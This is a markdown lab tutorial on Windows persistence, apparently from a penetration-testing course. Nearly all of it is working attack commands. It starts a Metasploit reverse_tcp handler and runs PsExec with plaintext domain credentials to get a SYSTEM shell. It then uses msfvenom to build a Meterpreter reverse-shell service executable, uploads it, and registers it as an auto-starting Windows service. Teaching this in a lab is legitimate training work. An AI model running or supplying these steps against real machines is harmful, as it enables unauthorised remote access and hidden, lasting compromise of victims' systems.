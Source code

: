 ```markdown
# Windows Persistence Demo

To demonstrate persistence using malicious services, let's use `msfvenom` to generate a Meterpreter payload, transport it to the Windows machine, and register a service using it.

> This requires an **active shell as SYSTEM** on the Windows 10 machine.  
> The first six steps detail how to open a Meterpreter shell on the Windows 10 machine if you do not have an active session already.

---

### 1. Start Metasploit on Kali

Open a terminal in Kali and start Metasploit with:

```bash
msfconsole
```

> 💡 **Note:** If Metasploit is already running, kill any background jobs:
```bash
jobs -K
```

---

### 2. Load Multi/Handler

```bash
use exploit/multi/handler
```

Then set the handler options:

```bash
set LHOST 172.22.117.100
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run -j
```

---

### 3. Use PsExec for Remote Access

Load the PsExec module:

```bash
use exploit/windows/smb/psexec
```

Set the following options:

```bash
set RHOST 172.22.117.20
set SMBUser tstark
set SMBPass Password!
set SMBDomain megacorpone
```

Run the module:

```bash
run
```

> ✅ You should now have a Meterpreter shell as SYSTEM.

> ℹ️ **Note:** We'll explore PsExec in more detail later. It's a method for remote Windows administration, and there's a Metasploit module that automates it.

---

### 4. Generate Meterpreter Payload with msfvenom

In a new terminal, generate a service-compatible payload:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe-service > service.exe
```

> ⚠️ The format **must be `exe-service`** and not just `exe`. Service Manager expects a different binary format than regular executables.

---

### 5. Upload Payload to Windows

From the Meterpreter shell:

```bash
cd ../../../
upload service.exe
```

---

### 6. Create a Windows Service for Persistence

Enter a command shell within Meterpreter:

```bash
shell
```

Then create the malicious service:

```bash
sc create TestService binPath= "C:\service.exe" start= auto
```

> 🔧 `sc` (Service Control) is used to manage Windows services.  
> You just created a new service that runs the payload and starts on login.

> ✅ **Important:** Use double quotes (`"`) around the path, not single quotes.

---

### 7. Start the Service

```bash
sc start TestService
```

You should now get a **new Meterpreter session** as the payload runs!

---

### 8. Next: Persistence Using Scheduled Tasks

You will now perform another persistence technique by creating a **scheduled task** that executes a payload at a defined interval.
```
